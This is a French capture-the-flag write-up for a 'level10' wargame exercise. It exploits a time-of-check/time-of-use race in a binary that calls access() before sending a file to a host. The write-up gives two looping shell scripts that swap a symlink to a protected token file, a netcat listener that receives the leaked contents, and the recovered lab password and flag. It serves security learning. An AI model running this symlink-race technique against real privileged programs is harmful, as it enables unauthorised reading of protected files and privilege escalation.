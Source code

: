 On trouve dans le dossier **home** un fichier **token** et un binaire **level10** qui, si on le lance nous affiche un message :
<pre><code>> ./level10
./level10 file host
		sends file to host if you have access to it

> ./level10 token IP
You don't have access to token
</code></pre>
> On suppose que l'host est l'ip sur laquelle la machine tourne (<code>ifconfig</code>)

On créé un fichier dans /tmp qui aura nos droits, et qui pourra donc être envoyé :
<pre><code>> echo "test" > /tmp/test
> ./level10 /tmp/test IP
Connecting to IP:6969 .. Unable to connect to host IP
</code></pre>

On cherche à savoir ce qu'il se passe dans le binaire avec un fichier valide :
<pre><code>> ltrace ./level10 /tmp/test IP
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/test", 4)= 0
printf("Connecting to %s:6969 .. ", "IP")= 35
fflush(0xb7fd1a20Connecting to IP:6969 .. )= 0
socket(2, 1, 0)= 3
inet_addr("IP")= 0x2a01a8c0
htons(6969, 1, 0, 0, 0)= 14619
connect(3, 0xbffff70c, 16, 0, 0)= -1
printf("Unable to connect to host %s\n", "IP"Unable to connect to host IP)= 39
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>

On observe que la commande **access** est utilisée, or on sait grâce à son man, que cette commande possède une faille
<pre>
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it.
</pre>
> Cette faille se nomme la **race-condition-vulnerability**.

De plus on observe la tentative de connexion au port 6969 qui n'est pas actif
Pour que les requêtes ce fassent, il faut donc écouter le port grâce à :
<pre><code>> nc -lk 6969</code></pre>
Et si on relance notre commande:
<pre><code>> ./level10 /tmp/test IP
Connecting to IP:6969 .. Connected!
Sending file .. wrote file!</code></pre>
> Il faut 2 terminaux pour effectuer cette manipulation afin de voir le résultat de l'écoute qui, dans cet exemple, nous donne :
> <pre><code>.*( )*.
> test</code></pre>


On va donc chercher à exploiter la **race-condition-vulnerability**, avec 2 scripts:

### /tmp/loop.sh
```bash
# Ce script lance la requete d'envoie de fichier en boucle
while true;
do
	/home/user/level10/level10 /tmp/link IP > /dev/null
done
```
> <code>printf "while true;\ndo\n\t/home/user/level10/level10 /tmp/link IP > /dev/null\ndone\n" > /tmp/loop.sh</code>

### /tmp/ln.sh
```bash
# Ce script creer un fichier sur lequel on a les droits et fait un lien symbolique du fichier token en boucle
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	rm -f /tmp/link
	ln -s /home/user/level10/token /tmp/link
done
```
> <code>printf "while true;\ndo\n\trm -f /tmp/link\n\ttouch /tmp/link\n\trm -f /tmp/link\n\tln -s /home/user/level10/token /tmp/link\ndone\n" > /tmp/ln.sh</code>

Il suffit de lancer les deux en background et de regarder le deuxième terminal qui écoute le port 6969 en attendant les deux scripts s'exécute de manière assez proche pour que la **race-condition-vulnerability** soit exploitée :
<pre><code>> sh /tmp/loop.sh &
> sh /tmp/ln.sh &
</code></pre>
On obtient donc: 
<pre><code>...
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
...
</code></pre>

On teste le mot de passe :
<pre>
<code>> su flag10</code>
<code>Password: woupa2yuojeeaaed06riuj63c</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
</pre>